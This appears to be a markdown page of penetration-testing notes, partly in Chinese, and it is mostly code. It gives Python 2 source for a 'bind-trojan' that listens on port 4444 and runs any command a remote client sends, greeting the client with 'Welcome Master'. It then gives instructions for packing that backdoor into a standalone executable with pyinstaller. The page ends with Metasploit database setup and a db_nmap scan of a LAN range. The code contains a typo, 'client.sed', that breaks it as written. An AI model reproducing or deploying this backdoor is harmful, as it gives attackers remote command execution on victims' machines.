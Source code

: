 ### python2

```bind-trojan.py
#!/usr/bin/env python

import socket
import subprocess

host = '0.0.0.0'
port = 4444

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.bind((host,port))
s.listen(5)
while 1:
        client,address = s.accept()
        client.sed("[+] Welcome Master\r\n\r\n>")
        data = client.recv(1024)
        if data:
                proc = subprocess.Popen(data,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)
                data = proc.stdout.read() + proc.stderr.read()
                client.send(data)
        client.close()
```
python pyinstaller.py --onefile bind-trojan.py
生成的文件会在pyinstaller/bind-trojan/dist 目录下



# metasploit

## 配置连接postgre数据库

```bash
/etc/init.d/postgresql start
su - postgres
createuser msf(用户名) -P                   输入密码(pass)
createdb --owner=msf    msf5(数据库名称)
exit
msfconsole
db_connect msf:pass@127.0.0.1/msf5
db_status                                   查看数据库连接状态
/etc/init.d/metasploit start
msfconsole
```


## 使用数据库

db_nmap 192.168.31.200-254 --top-ports 20
services -p 443
